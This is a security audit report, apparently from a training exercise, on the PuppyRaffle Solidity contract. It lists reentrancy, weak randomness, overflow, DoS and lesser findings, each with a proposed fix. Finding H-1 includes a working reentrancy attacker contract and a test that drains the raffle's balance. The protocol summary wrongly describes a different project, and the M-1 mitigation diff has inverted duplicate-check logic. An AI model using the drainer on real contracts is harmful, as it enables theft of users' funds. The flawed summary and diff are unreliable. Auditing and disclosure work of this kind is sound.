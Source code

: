 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    
</style>
</head>
<body>

<div class="full-page">
    <img src="./logo.jpeg" alt="Logo">
    <div>
    <h1>Puppy Raffle Audit Report</h1>
    <h3>Prepared by: Julián Cabrera Marceglia</h3>
    </div>
</div>

</body>
</html>

<!-- Your report starts here! -->

# Puppy Raffle Audit Report

### Prepared by: Julián Cabrera Marceglia
Lead Auditors: 

- Julián Cabrera Marceglia (https://github.com/juliancabmar)

Assisting Auditors:

- None

# Table of contents
<details>

<summary>See table</summary>

- [Puppy Raffle Audit Report](#puppy-raffle-audit-report)
- [Table of contents](#table-of-contents)
- [About Julián Cabrera Marceglia](#about-your_name_here)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
- [Protocol Summary](#protocol-summary)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
    - [High Risk Findings](#high-risk-findings)
        - [H-1 Reentrancy attack in `PuppyRaffle::refund` function allown entrant to drain raffle balance](#h-1-reentrancy-attack-in-puppyrafflerefund-function-allown-entrant-to-drain-raffle-balance)
        - [H-2 Weak randomness in `PuppyRaffle::selectWinner` function allows users to influence or predict the winner and influence or predict the winning puppy](#h-2-weak-randomness-in-puppyraffleselectwinner-function-allows-users-to-influence-or-predict-the-winner-and-influence-or-predict-the-winning-puppy)
        - [H-3 Integer overflow on `PuppyRaffle::totalFees` loses fees](#h-3-integer-overflow-on-puppyraffletotalfees-loses-fees)
    - [Medium Risk Findings](#medium-risk-findings)
        - [M-1 The For Loop on `Puppyraffle::enterRaffle` function is a potential denial of service (DoS) attack](#m-1-the-for-loop-on-puppyraffleenteraffle-function-is-a-potential-denial-of-service-dos-attack)
        - [M-2 Unsafe cast of `PuppyRaffle::fee` loses fees](#m-2-unsafe-cast-of-puppyrafflefee-loses-fees)
        - [M-3 Smart contract wallets raffle winners without a `receive` or `fallback` function will block the start of a new contest](#m-3-smart-contract-wallets-raffle-winners-without-a-receive-or-fallback-function-will-block-the-start-of-a-new-contest)
    - [Low Risk Findings](#low-risk-findings)
        - [L-1 On `PuppyRaffle::getActivePlayerIndex`, if zero is the index of the first address in the players array, so the user 0 may think what is not active](#l-1-on-puppyrafflegetactiveplayerindex-if-zero-is-the-index-of-the-first-address-in-the-players-array-so-the-user-0-may-think-what-is-not-active)
    - [Gas Optimizations](#gas-optimizations)
        - [G-1 Unchanged state variables should be declared constant or immutable](#g-1-unchanged-state-variables-should-be-declared-constant-or-immutable)
        - [G-2 Storage Array Length not Cached](#g-2-storage-array-length-not-cached)
    - [Informational](#informational)
        - [I-1 Unspecific Solidity Pragma](#i-1-unspecific-solidity-pragma)
        - [I-2 Using an outdated version of Solidity is not recommended](#i-2-using-an-outdated-version-of-solidity-is-not-recommended)
        - [I-3 Address State Variable Set Without Checks](#i-3-address-state-variable-set-without-checks)
        - [I-4 `PuppyRaffle::selectWinner` does not follow CEI, which is not a best practice](#i-4-puppyraffleselectwinner-does-not-follow-cei-which-is-not-a-best-practice)
        - [I-5 Using magic numbers is discouraged](#i-5-using-magic-numbers-is-discouraged)
        - [I-6 _isActivePlayer is never used and should be removed](#i-6-_isactiveplayer-is-never-used-and-should-be-removed)
</details>
</br>

# About Julián Cabrera Marceglia

I am a security researcher who want to make the web3 enviroment safer.

# Disclaimer

The Julián Cabrera Marceglia team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

# Audit Details

**The findings described in this document correspond the following commit hash:**
```
2a47715b30cf11ca82db148704e67652ad679cd8
```

## Scope 

```
src/
--- PuppyRaffle.sol
```

# Protocol Summary 

PasswordStore is a protocol dedicated to storage and retrieval of a user's passwords. The protocol is designed to be used by a single user, and is not designed to be used by multiple users. Only the owner should be able to set and access this password. 

## Roles

- Owner - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the changeFeeAddress function.
- Player - Participant of the raffle, has the power to enter the raffle with the enterRaffle function and refund value through refund function.

# Executive Summary

## Issues found

| Severity          | Number of issues found |
| ----------------- | ---------------------- |
| High              | 3                      |
| Medium            | 3                      |
| Low               | 1                      |
| Info              | 6                      |
| Gas Optimizations | 2                      |
| Total             | 15                     |

# Findings

## High Risk Findings

### [H-1] Reentrancy attack in `PuppyRaffle::refund` function allown entrant to drain raffle balance

**Description:**\
The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance. This occurs because the `PuppyRaffle::refund` function make a external call to msg.sender before update the `PuppyRaffle::players` array.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);
        
        emit RaffleRefunded(playerAddress);
    }
```
A player who has entered the raffle behind an another contract with a `fallback`/`receive` function in it, could call the `PuppyRaffle::refund` again and claim another refund. They could continue this cycle till the raffle contract balance is drained.

**Impact:**\
All fees paid by raffle entrants could be stolen by the malicious participant. 

**Proof of Concept:**

1. User enters the raffle
2. Attacker set up a contract with a `fallback` function that call `PuppyRaffle::refund`
3. Attacker enter the raffle from their attack contract setted contract
4. Attacker calls `PuppyRaffle::refund` from their attack contract

**Proof of Code:**
<details><summary>PoC</summary>


Paste the following into the ```PuppyRaffleTest.t.sol```

```javascript
function test_Audit_Reentrancy_Refund() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

    ReentrancyAttacker reentrancyAttacker = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);

    uint256 startingAttackerContractBalance = address(attacker).balance;
    uint256 startingRaffleContractBalance = address(puppyRaffle).balance;

    console.log("Attacker contract start: ", startingAttackerContractBalance);
    console.log("Raffle contract start: ", startingRaffleContractBalance);

    vm.prank(attacker);
    reentrancyAttacker.attack{value: entranceFee}();

    uint256 endingAttackerContractBalance = address(reentrancyAttacker).balance;
    uint256 endingRaffleContractBalance = address(puppyRaffle).balance;

    assertEq(endingAttackerContractBalance, startingAttackerContractBalance + startingRaffleContractBalance);
    assertEq(endingRaffleContractBalance, 0);

    console.log("Attacker contract end: ", endingAttackerContractBalance);
    console.log("Raffle contract end: ", endingRaffleContractBalance);
}

```
An the attacker contract too:

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = _puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```
</details>

**Recommended Mitigation:**\
To prevent this, on the `PuppyRaffle::refund` function, update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

        payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);

-       emit RaffleRefunded(playerAddress);
    }
```

### [H-2] Weak randomness in `PuppyRaffle::selectWinner` function allows users to influence or predict the winner and influence or predict the winning puppy

**Description:**\
Hashing `msg.sender`, `block.difficulty`, and `block.timestamp` together create a predictable random number. A predictable number is not a good random number.
Malicious users can use these values or known them ahead to choose the winner of the raffle themselvles

*Note* This additionally means users could front-run this function and call `refund` if they see they are not the winner.

**Impact:**\
Any user can influence the winner of the raffle, and the winning puppy. This could lead to a loss of trust in the raffle system.

**Proof of Concept:**\

1. Validators can know ahead of time the `block.difficulty` and `block.timestamp` and use that for predict when/how to participate. See the [solidity blog prevrandao](https://soliditydeveloper.com/prevrandao). `block.difficulty` was recently replaced with `block.prevrandao`.
2. Users can mine/manipulate their `msg.sender` value to result in this address being used to generate the winner!
3. Users can revert their `PuppyRaffle::selectWinner` transaction if they see they are not the winner, and call `PuppyRaffle::refund` to get their entrance fee back.

Using this on-chain values for get a randomness sed is a [well-documented attack vector](https://https://medium.com/better-programming/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain world.

**Recommended Mitigation:**\
Using a secure random number generator, such as Chainlink VRF or a similar service, to generate the random number for selecting the winner. This will ensure that the random number is unpredictable and cannot be influenced by any user.

### [H-3] Integer overflow on `PuppyRaffle::totalFees` loses fees

**Description:**\
In Solidity prior to version 0.8.0, integer overflow were not checked by default. This means that if a number exceeds the maximum value for its type, it will wrap around to zero.

```javascript
uint64 myVar = type(uint64).max;
// myVar is 18446744073709551615 now
myVar = myVar + 1;
// myVar is 0 now
```

**Impact:**\
In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `feeAddress` to collect later in `withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:** 
1. We first conclude a raffle of 4 players to collect some fees.
2. We then have 89 additional players enter a new raffle, and we conclude that raffle as well.
3. `totalFees` will be:
```javascript
totalFees = totalFees + uint64(fee);
// substituted
totalFees = 800000000000000000 + 17800000000000000000;
// due to overflow, the following is now the case
totalFees = 153255926290448384;
```
4. You will now not be able to withdraw, due to this line in `PuppyRaffle::withdrawFees`:
```javascript
require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Although you could use `selfdestruct` to send ETH to this contract in order for the values to match and withdraw the fees, this is clearly not what the protocol is intended to do. 

<details>
<summary>Proof Of Code</summary>
Place this into the `PuppyRaffleTest.t.sol` file.

```javascript
function testTotalFeesOverflow() public playersEntered {
        // We finish a raffle of 4 to collect some fees
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        // startingTotalFees = 800000000000000000

        // We then have 89 players enter a new raffle
        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        // We end the raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        // And here is where the issue occurs
        // We will now have fewer fees even though we just finished a second raffle
        puppyRaffle.selectWinner();

        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("ending total fees", endingTotalFees);
        assert(endingTotalFees < startingTotalFees);

        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```
</details>

**Recommended Mitigation:**\
There are a few recommended mitigations here:

1. Use a newer version of Solidity that does not allow integer overflows by default.

```diff 
- pragma solidity ^0.7.6;
+ pragma solidity ^0.8.18;
```

Alternatively, if you want to use an older version of Solidity, you can use a library like OpenZeppelin's `SafeMath` to prevent integer overflows. 

2. Use a `uint256` instead of a `uint64` for `totalFees`. 

```diff
- uint64 public totalFees = 0;
+ uint256 public totalFees = 0;
```

3. Remove the balance check in `PuppyRaffle::withdrawFees` 

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

We additionally want to bring your attention to another attack vector as a result of this line in a future finding.



## Medium Risk Findings

### [M-1] The For Loop on `Puppyraffle::enterRaffle` function is a potential denial of service (DoS) attack.

**Description:**\
The for loop inside the `Puppyraffle::enterRaffle` function runs through an increasing array of players searching for duplicate ones, opening the possibility that an attacker could pass player addresses multiple times, making the later calls more gas expensive than the earlier ones.  

```javascript
@>  for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(
                players[i] != players[j],
                "PuppyRaffle: Duplicate player"
            );
        }
    }
```

**Impact:**\
After the attack, the new costs of entering the raffle would discourage new real users.

**Proof of Concept:**\
If we have two sets of 100 players enter, the gas used will be as such:
- 1st 100 players: ~6503269 gas
- 2nd 100 players: ~18995097 gas

The second set is ~3x more expensive than the first.

<details>
<summary>PoC</summary>

Place the following test into `test/PuppyRaffleTest.t.sol`.

```javascript
function testDoSEnterRaffle() public {
    uint256 startGas;
    uint256 gasUsedFirst;
    uint256 gasUsedSecond;
    uint256 numOfPlayers = 100;
    address[] memory players = new address[](numOfPlayers);

    for (uint256 i = 0; i < numOfPlayers; i++) {
        players[i] = address(uint160(i));
    }
    startGas = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numOfPlayers}(players);
    gasUsedFirst = startGas - gasleft();

    for (uint256 i = 0; i < numOfPlayers; i++) {
        players[i] = address(uint160(i + numOfPlayers));
    }
    startGas = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numOfPlayers}(players);
    gasUsedSecond = startGas - gasleft();
    console.log("Gas used on first enterRaffle() call: ", gasUsedFirst);
    console.log("Gas used on second enterRaffle() call: ", gasUsedSecond);
    assert(gasUsedFirst < gasUsedSecond);
}
```
</details>

**Recommended Mitigation:**
1. Consider allow duplicate addresses, because users can make new wallet addresses anyways, so duplicate check doesn't prevent the same person from entering multiple times.
2. Refactory the function code using a mapping instead of an array for check duplicates addresses.

<details>
<summary>Code example</summary>

```diff
-   address[] public players;
+   mapping(address => bool) public players;
+   error Puppyraffle__NotDuplicateAddressAllowed(address duplicateAddress);

    function enterRaffle(address[] memory newPlayers) public payable {
        require(
            msg.value == entranceFee * newPlayers.length,
            "PuppyRaffle: Must send enough to enter raffle"
        );
+       // Revert with the custom error if a duplicate address is found
        for (uint256 i = 0; i < newPlayers.length; i++) {
-           players.push(newPlayers[i]);
+           if (!players[newPlayers[i]]) {
+               revert Puppyraffle__NotDuplicateAddressAllowed(newPlayers[i]);
+           }
+           players[newPlayers[i]];
        }

-       // Check for duplicates
-       // audit DoS
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(
-                   players[i] != players[j],
-                   "PuppyRaffle: Duplicate player"
-               );
-           }
-       }
        emit RaffleEnter(newPlayers);
    }
```
</details>

### [M-2] Unsafe cast of `PuppyRaffle::fee` loses fees

**Description:**\
In `PuppyRaffle::selectWinner` their is a type cast of a `uint256` to a `uint64`. This is an unsafe cast, and if the `uint256` is larger than `type(uint64).max`, the value will be truncated. 

```javascript
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length > 0, "PuppyRaffle: No players in raffle");

        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 fee = totalFees / 10;
        uint256 winnings = address(this).balance - fee;
@>      totalFees = totalFees + uint64(fee);
        players = new address[](0);
        emit RaffleWinner(winner, winnings);
    }
```

The max value of a `uint64` is `18446744073709551615`. In terms of ETH, this is only ~`18` ETH. Meaning, if more than 18ETH of fees are collected, the `fee` casting will truncate the value. 

**Impact:**\
This means the `feeAddress` will not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:** 

1. A raffle proceeds with a little more than 18 ETH worth of fees collected
2. The line that casts the `fee` as a `uint64` hits
3. `totalFees` is incorrectly updated with a lower amount

You can replicate this in foundry's chisel by running the following:

```javascript
uint256 max = type(uint64).max
uint256 fee = max + 1
uint64(fee)
// prints 0
```

**Recommended Mitigation:**\
Set `PuppyRaffle::totalFees` to a `uint256` instead of a `uint64`, and remove the casting. Their is a comment which says:

```javascript
// We do some storage packing to save gas
```
But the potential gas saved isn't worth it if we have to recast and this bug exists. 

```diff
-   uint64 public totalFees = 0;
+   uint256 public totalFees = 0;
.
.
.
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
-       totalFees = totalFees + uint64(fee);
+       totalFees = totalFees + fee;
```

### [M-3] Smart contract wallets raffle winners without a `receive` or `fallback` function will block the start of a new contest

**Description:**\
The `PuppyRaffle::selectWinner` function is responsible for reseting the lottery, however, if the winner is a smart contract wallet that does not implement a `receive` or `fallback` function, the contract will be unable to send the prize pool to the winner. This will block the start of a new contest.

Users could easily call `selectWinner` again and non-wallet entrants could enter, but it could cost a lot due to the duplicate check and a lottery reset could get very challenging.

**Impact:**\
The `PuppyRaffle::selectWinner` function could revert many times, making a lottery reset very difficult.

Also, true winners would not be able to claim their prize, and someone else could take their money.

**Proof of Concept:**
1. 10 smart contract wallets enter the raffle without a `receive` or `fallback` function.
2. The lottery ends.
3. The `PuppyRaffle::selectWinner` function wouldn't work, even though lottery is over!

**Recommended Mitigation:**\
There are a few options to mitigate this issue.

1. Do not allow smart contract wallet entrants (not recommended)
2. Create a mapping of addresses -> payout so winners can pull their funds out themselves, putting the owness on the winner to claim their prize. (Recommended)

## Low Risk Findings

### [L-1] On `PuppyRaffle::getActivePlayerIndex`, if zero is the index of the first address in the players array, so the user 0 may think what is not active.

**Description:**\
`PuppyRaffle::getActivePlayerIndex` returns the same "0" output for an non-existed player and for the one who have `players[0]` array index.

```javascript
function getActivePlayerIndex(address player) external view returns (uint256) {
    for (uint256 i = 0; i < players.length; i++) {
        if (players[i] == player) {
            return i;
        }
    }
    return 0;
}
```

**Impact:**\
A player at index 0 may incorrectly think they have not entered the raffle, and attempt to enter the raffle again, wasting gas.

**Proof of Concept:**

1. User enters the raffle, they are the first entrant
2. `PuppyRaffle::getActivePlayerIndex` return 0
3. User thinks they have not entered correctly due to the function documentation

**Recommended Mitigation:**\
If the function not find a active player can may return "-1" instead of "0", or a better approach will be, revert the txn with a `PuppyRaffle__UserIsNotActive` custom error.


## Gas Optimizations

### [G-1] Unchanged state variables should be declared constant or immutable.

**Description:**\
Reading from storage is more gas expensive than reading from a constant or inmmutable variable.

**Instances:**
- `PuppyRaffle::reffleDuration` should be `immutable`
- `PuppyRaffle::reffleStartTime` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`


### [G-2] Storage Array Length not Cached

Calling `.length` on a storage array in a loop condition is expensive. Consider caching the length in a local variable in memory before the loop and reusing it.

<details><summary>4 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 88](src/PuppyRaffle.sol#L88)

    ```solidity
            for (uint256 i = 0; i < players.length - 1; i++) {
    ```

- Found in src/PuppyRaffle.sol [Line: 89](src/PuppyRaffle.sol#L89)

    ```solidity
                for (uint256 j = i + 1; j < players.length; j++) {
    ```

- Found in src/PuppyRaffle.sol [Line: 115](src/PuppyRaffle.sol#L115)

    ```solidity
            for (uint256 i = 0; i < players.length; i++) {
    ```

- Found in src/PuppyRaffle.sol [Line: 186](src/PuppyRaffle.sol#L186)

    ```solidity
            for (uint256 i = 0; i < players.length; i++) {
    ```

</details>


**Recommended Mitigation:**
<details><summary>Code example</summary>

```diff
+   uint256 playersLength = players.length;
-   for (uint256 i = 0; i < players.length - 1; i++) {
+   for (uint256 i = 0; i < playersLength - 1; i++) {
-                for (uint256 j = i + 1; j < players.length; j++) {
+                for (uint256 j = i + 1; j < playersLength; j++) {
                    require(players[i] != players[j], "PuppyRaffle: Duplicate player");
                }
            }
```
</details>

## Informational

### [I-1] Unspecific Solidity Pragma

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

    ```solidity
    pragma solidity ^0.7.6;
    ```

</details>

### [I-2] Using an outdated version of Solidity is not recommended.

**Description:**\
solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommended Mitigation:**\
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.
Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

### [I-3] Address State Variable Set Without Checks

Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 62](src/PuppyRaffle.sol#L62)

    ```solidity
            feeAddress = _feeAddress;
    ```

- Found in src/PuppyRaffle.sol [Line: 179](src/PuppyRaffle.sol#L179)

    ```solidity
            feeAddress = newFeeAddress;
    ```

</details>

### [I-4] `PuppyRaffle::selectWinner` does not follow CEI, which is not a best practice

It's best to keep the code clean and follow CEI (Check, Effects, Interactions)

```diff
-   (bool success,) = winner.call{value: prizePool}("");
-   require(success, "PuppyRaffle: Failed to send prize pool to winner");
    _safeMint(winner, tokenId);
+   (bool success,) = winner.call{value: prizePool}("");
+   require(success, "PuppyRaffle: Failed to send prize pool to winner");
 
```

### [I-5] Using magic numbers is discouraged

It can confusing to see number literals in the code. Consider using a constant variable with a descriptive name instead.

Example:

```diff
+   uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
+   uint256 public constant FEE_PERCENTAGE = 20;
+   uint256 public constant POOL_PRECISION = 100;
.
.
.
-   uint256 prizePool = (totalAmountCollected * 80) / 100;
-   uint256 fee = (totalAmountCollected * 20) / 100;
+   uint256 prizePool = (totalAmountCollected * PRIZE_POOL_PERCENTAGE) / POOL_PRECISION;
+   uint256 fee = (totalAmountCollected * FEE_PERCENTAGE) / POOL_PRECISION;
```

### [I-6] _isActivePlayer is never used and should be removed

**Description:**\
The function `PuppyRaffle::_isActivePlayer` is never used and should be removed. 

```diff
-    function _isActivePlayer() internal view returns (bool) {
-        for (uint256 i = 0; i < players.length; i++) {
-            if (players[i] == msg.sender) {
-                return true;
-            }
-        }
-        return false;
-    }
```